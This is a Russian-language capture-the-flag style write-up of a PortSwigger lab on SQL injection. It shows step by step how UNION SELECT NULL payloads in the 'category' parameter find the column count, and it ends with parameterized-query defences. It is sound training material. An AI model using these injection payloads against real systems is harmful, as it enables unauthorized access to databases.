




## Lab: SQL injection UNION attack, determining the number of columns returned by the query

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection  
**Сложность:** Practitioner  
**Дата:** 2025-07-18  

---

## TL;DR
Параметр `category` уязвим к SQL инъекции. Через последовательное
добавление NULL значений в UNION SELECT определено что оригинальный
запрос возвращает **3 столбца**.

---

## Описание уязвимости

UNION атака позволяет объединить результаты двух SQL запросов в один.
Обязательное условие — оба запроса должны возвращать **одинаковое
количество столбцов**. Если количество не совпадает — база данных
вернёт ошибку.

Поэтому первый шаг любой UNION атаки — определить сколько столбцов
возвращает оригинальный запрос.

```
Оригинальный запрос (неизвестное число столбцов):
SELECT col1, col2, col3 FROM products WHERE category='...'

UNION запрос должен совпадать:
UNION SELECT NULL, NULL, NULL  ← три столбца = совпадает = работает
UNION SELECT NULL, NULL        ← два столбца = не совпадает = ошибка
```

### Почему NULL а не числа или строки

NULL совместим с **любым типом данных** — числом, строкой, датой.
Если использовать конкретное значение (например `'abc'`) — может
возникнуть ошибка несовпадения типов даже при правильном
количестве столбцов.

---

## Эксплуатация

### Шаг 1 — Подтверждение SQL инъекции через одинарную кавычку

Первым делом проверила что SQL инъекция вообще существует.
Добавила одинарную кавычку к значению параметра `category`:

```
GET /filter?category=Gifts'
```

Сервер вернул **500 Internal Server Error** — кавычка сломала
синтаксис SQL запроса. Это подтверждает что параметр подставляется
в запрос без экранирования.

```sql
-- Что выполняется на сервере:
SELECT * FROM products WHERE category='Gifts''
--                                           ^ лишняя кавычка = синтаксическая ошибка
```



### Шаг 2 — Закрытие строки и комментарий

Закрыла строку двумя одинарными кавычками и добавила комментарий `--`
чтобы убедиться что запрос синтаксически корректен:

```
GET /filter?category=Gifts''--
```

Сервер вернул **200 OK** — запрос выполнился без ошибок.
Это подтверждает что можно управлять структурой SQL запроса.

```sql
-- Что выполняется на сервере:
SELECT * FROM products WHERE category='Gifts''--'
-- '' = экранированная кавычка внутри строки
-- -- = комментарий, остаток запроса игнорируется
```



### Шаг 3 — UNION SELECT с одним NULL — ошибка

Начала перебор количества столбцов. Попробовала один NULL:

```
GET /filter?category='+UNION+SELECT+NULL--
```

Сервер вернул **500** — количество столбцов не совпадает.

```sql
SELECT * FROM products WHERE category='' UNION SELECT NULL--'
-- Ошибка: оригинальный запрос возвращает больше 1 столбца
```



### Шаг 4 — UNION SELECT с двумя NULL — ошибка

Добавила второй NULL:

```
GET /filter?category='+UNION+SELECT+NULL,NULL--
```

Снова **500** — оригинальный запрос возвращает больше двух столбцов.

```sql
SELECT * FROM products WHERE category='' UNION SELECT NULL,NULL--'
-- Ошибка: количество столбцов не совпадает
```



### Шаг 5 — UNION SELECT с тремя NULL — успех

Добавила третий NULL:

```
GET /filter?category='+UNION+SELECT+NULL,NULL,NULL--
```

Сервер вернул **200 OK** — в ответе появилась дополнительная строка
с пустыми значениями. Оригинальный запрос возвращает **3 столбца**.

```sql
SELECT col1, col2, col3 FROM products WHERE category=''
UNION SELECT NULL, NULL, NULL--'
-- Успех: 3 = 3, количество столбцов совпадает
```


---

## Итог

Методом последовательного перебора определено что оригинальный
SQL запрос возвращает **3 столбца**:

```
Шаг 1: '              → 500 (инъекция подтверждена)
Шаг 2: ''--           → 200 (синтаксис исправлен)
Шаг 3: UNION NULL     → 500 
Шаг 4: UNION NULL,NULL → 500 
Шаг 5: UNION NULL,NULL,NULL → 200 ✓
```
---

## Защита

```python
# Используй параметризованные запросы (prepared statements)
# вместо конкатенации строк

# УЯЗВИМО:
query = f"SELECT * FROM products WHERE category='{category}'"
cursor.execute(query)

# БЕЗОПАСНО:
query = "SELECT * FROM products WHERE category=?"
cursor.execute(query, (category,))

# SQLAlchemy ORM (Python):
products = db.session.query(Product).filter(
    Product.category == category
).all()
# ORM автоматически экранирует все параметры
```

Дополнительно:
- Использовать ORM вместо сырых SQL запросов
- Минимальные привилегии для пользователя БД
- Не показывать детали SQL ошибок пользователям
- WAF как дополнительный слой защиты (не замена параметризации)